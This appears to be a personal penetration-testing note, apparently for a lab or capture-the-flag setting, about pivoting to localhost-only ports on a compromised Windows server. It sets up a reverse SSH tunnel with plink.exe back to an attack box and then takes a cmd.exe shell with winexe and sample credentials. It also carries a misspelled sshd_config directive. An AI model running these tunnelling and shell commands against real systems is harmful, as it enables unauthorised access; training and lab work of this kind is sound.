 -- -
Writing this for situations where you want to attack services on ports that are only available to local host. So:
1. You get a foothold on a server
2. You [[Dark Arts/Privesc/Windows/Enumeration/Network#^cc03c5|Network Enum]] and find ports open only to localhost
So from here you will need to forward your traffic through the server to get access to those ports. 
##### Setup SSH on target servera
You can skip this step if SSH is setup on the server. This is for most situations where the windows server does not have SSH up. 
1. [Download Plink](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)
2. [[Dark Arts I/File Transfer/Windows|File Transfer]] plink.exe to target server. 
3. Config SSH on attackbox:
```bash
sudo vim /etc/ssh/sshd_config

# look for line:
# PermitRootLogin prohibit-password

# uncomment and change to:
PermiRootLogin yes

# then save

# Check ssh status
sudo systemctl status ssh
sudo service ssh status

# start if not enabled
sudo systemctl start ssh
sudo service ssh start

# if it is enabled/started previously, restart it
sudo systemctl restart ssh
sudo service ssh restart
```
4. Setup port forward on target:
```powershell
# I still don't have my mind completely wrapped around this, but I believe it port forwards to internally avaialble port and connects back to attack box via ssh. 

# for the credentials, use the credentials of your account on the attackbox
# -R: Port to forward to, i.e. the port open only to localhost you want to access
# in this example, we are forwarding traffic from 445 externally to 445 open internally. 
plink.exe -l <username> -pw <password> -R <port>:127.0.0.1:<port> <attack ip>
plink.exe -l root -pw toor -R 445:127.0.0.1:445 10.10.14.5
plink.exe -l n0ctxs -pw kali -R 445:127.0.0.1:445 10.10.14.5
```
5. Use `winexe` to run linux commands via windows.
```bash
# Try to get shell with creds
# on shell gotten through plink.exe:
winexe -U <username>%<password> //127.0.0.1 "cmd.exe"
winexe -U Administrator%Welcome1! //127.0.0.1 "cmd.exe"

# note: you may need to try it multiple times before it works. 
```